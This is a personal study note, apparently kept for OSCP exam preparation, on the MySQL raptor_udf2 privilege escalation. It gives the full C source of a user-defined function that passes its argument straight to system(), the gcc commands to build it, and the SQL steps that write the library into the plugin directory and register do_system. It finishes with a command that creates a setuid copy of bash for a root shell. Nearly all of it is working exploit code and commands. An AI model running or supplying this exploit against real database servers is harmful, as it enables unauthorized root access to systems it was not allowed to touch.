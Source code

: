 OSCP Book pg 781

![[Pasted image 20211229223508.png]]

[https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

```bash - kali
sudo apt update && sudo apt install default-libmysqlclient-dev
```

```bash - kali
mousepad raptor_udf2.c
```

**raptor_udf2.c**
```c
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```

Transfer the above c file to target.

![[Python#Server]]
IF TARGET IS 64 bit version of debian, we need add -fPIC to the gcc command:

```bash - kali
gcc -g -c raptor_udf2.c -fPIC
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

---
IF TARGET IS 32 bit, remember to add -m32:
```bash - kali
gcc -g -c raptor_udf2.c -fPIC -m32
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc -m32
```
---
Transfer the files over the target.
[[Python#Server]]

Should have 3 files, like so:

![[Pasted image 20220401110417.png]]

Now log in locally:
```bash - kali
mysql -h localhost -u root -p
```

```sql - target
show databases;
```

```sql - target
use <DATABASE>;
```

The first step in this process is to discover where this installation of MySQL stores its UDFs. 

```sql - target
show variables like 'plugin_dir';
```

![[Pasted image 20220401110825.png]]

In this case, the directory is **/usr/lib/mysql/plugin/**. We'll use this directory name in the steps that follow.

We must also determine whether the database has been misconfigured to allow insecure handling of files.

```sql - target
SHOW VARIABLES LIKE "secure_file_priv";
```

![[Pasted image 20220401110942.png]]

At this point, all elements are in place to exploit this misconfiguration and obtain a root shell.

==Pay attention to the directories below, and where your files are:==

==/tmp/Tools/ vs /tmp/ vs /var/www/==

```sql - target
create table foo(line blob);
```

```SQL
insert into foo values(load_file('/<PATH_TO_FILE>/raptor_udf2.so'));
```

```SQL
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```

![[Pasted image 20220406222607.png]]

if the /usr/lib/mysql/plugin directory give you error, try: 

```SQL
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
```

```SQL
create function do_system returns integer soname 'raptor_udf2.so';
```

If you get `MySQL Error “file too short”`:  https://emarcel.com/mysql-error-when-creating-function/

Turned out that “SELECT … INTO DUMPFILE” clause did not write a library properly into plugins’ directory in “/usr/lib/mysql/plugin/” (the file size is 1)

```
\! cp raptor_udf2.so /usr/lib/mysql/plugin/
```

```
\! ls -lah /usr/lib/mysql/plugin
```

Now we should see the filesize of raptor_udf2.so as something other than 1.

```SQL
select * from mysql.func;
```

| name | ret |  dl | type |
| ---| --- | --- | --- |  
| do_system | 2 |  raptor_udf2.so | function |

```SQL
select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
```

![[Pasted image 20211229224131.png]]

```SQL
exit
```

```bash
/tmp/rootbash -p
```

![[Pasted image 20211229224227.png]]

